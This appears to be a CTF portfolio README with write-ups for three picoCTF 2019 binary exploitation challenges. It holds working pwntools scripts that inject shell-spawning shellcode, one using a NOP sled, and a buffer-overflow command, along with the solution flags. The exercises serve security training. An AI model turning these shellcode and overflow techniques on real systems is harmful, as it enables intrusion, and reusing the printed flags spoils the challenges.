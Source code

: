 
# [PICO CTF (2019)](https://github.com/Ordered-Chaos/Pwnfolio#main)<a name="picoctf19"></a>
[<p align="right">back to main</p>](https://github.com/Ordered-Chaos/Pwnfolio#main)
***

| Problem | Category | Points | Problem | Category | Points |
| ------- | -------- | ------ | ------- | -------- | ------ | 
| [Handy Shellcode](#handyshellcode) | Binary Exploitation | 50 | [Overflow 0](#overflow0) | Binary Exploitation | 100 |
| [Slippery Shellcode](#slipperyshellcode) | Binary Exploitation | 200 | Overflow 1 | Binary Exploitation | 150 |

***

## HANDY SHELLCODE <a name="handyshellcode"></a>

> ### Problem 
>> This program executes any shellcode that you give it. Can you spawn a shell and use that to read the flag.txt? 
>> You can find the program in /problems/handy-shellcode_2_6ad1f834bdcf9fcfb41200ca8d0f55a6 on the shell server. 
>> [(Source)](https://github.com/Ordered-Chaos/Pwnfolio/blob/master/Pico_CTF(2019)/Sources/handshellcodesource.md#handyshellsource)
>
> ### Solution
>> The solution here is pretty straightforward. All you need to do is supply the program with shellcode
>> and it will execute it. A simple pwntools script using `shellcraft.sh()` as the payload can get this done.

~~~python
#!/usr/bin/env python

from pwn import *

context.clear(os='linux', arch='i386')
context.log_level = 'info'

s = ssh(host='2019shell1.picoctf.com', user='User', password='Pa$$w0rd')

io = s.process('vuln',cwd='/problems/handy-shellcode_2_6ad1f834bdcf9fcfb41200ca8d0f55a6')

shellcode = asm(shellcraft.sh())

payload = shellcode

print io.recv()
io.sendline(payload)

print io.recv()
io.sendline('cat flag.txt')

print io.recv()

~~~

**FLAG:** *picoCTF{h4ndY_d4ndY_sh311c0d3_707f1a87}*

[Return to Top](#picoctf19)
***

## SLIPPERY SHELLCODE <a name="slipperyshellcode"></a>

> ### Problem 
>> This program is a little bit more tricky. Can you spawn a shell and use that to read the flag.txt? 
>> You can find the program in /problems/slippery-shellcode_6_7cf1605ec6dfefad68200ceb12dd67a1 on the shell server.
>> [(Source)](https://github.com/Ordered-Chaos/Pwnfolio/blob/master/Pico_CTF(2019)/Sources/slipperyshellcode.md#slipperyshellsource1)
>
> ### Solution
>> In this challenge we again need to supply the program with shellcode using `shellcraft.sh()`. The source code
>> reveals that this time, the program will begin execution of the shellcode from a random location within a 256 
>> byte range. To make sure that we execute our code, all that needs to be done is to supply an 'x\90' NOP sled
>> that's 256 bytes long directly preceding the shellcode. This can be done with the following pwntools script.

~~~python
#!/usr/bin/env python

from pwn import *

context.clear(os='linux', arch='i386')
context.log_level = 'info'

s = ssh(host='2019shell1.picoctf.com', user='User', password='Pa$$w0rd')

io = s.process('vuln',cwd='/problems/slippery-shellcode_6_7cf1605ec6dfefad68200ceb12dd67a1')

padding = '\x90' * 256
shellcode = asm(shellcraft.sh())

payload = padding + shellcode

print io.recv()
io.sendline(payload)

print io.recv()
io.sendline('cat flag.txt')

print io.recv()
~~~

**FLAG:** *picoCTF{sl1pp3ry_sh311c0d3_5a0fefb6}*

[Return to Top](#picoctf19)
***
## OVERFLOW 0<a name="overflow0"></a>

> ### Problem
>> This should be easy. Overflow the correct buffer in this program and get a flag. Its also found in 
>> /problems/overflow-0_1_54d12127b2833f7eab9758b43e88d3b7 on the shell server. [(Source)](https://github.com/Ordered-Chaos/Pwnfolio/blob/master/Pico_CTF(2019)/Sources/overflow0source.md#overflow0source1)

> ##  Solution
>> After looking at the program, you can tell that it checks to see if `argv[]` is greater or less than the buffer. If it is, then it prints the flag file.
>> So all we have to do is call `./vuln` with more than 64 arguments.
~~~bash
kali@kali:~/ctf/pico/overflow0$ ssh User@2019shell1.picoctf.com 'cd /problems/
overflow-0_1_54d12127b2833f7eab9758b43e88d3b7; ./vuln AAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
~~~

**FLAG:** *picoCTF{3asY_P3a5yb197d4e2}*

[Return to Top](#picoctf19)
***
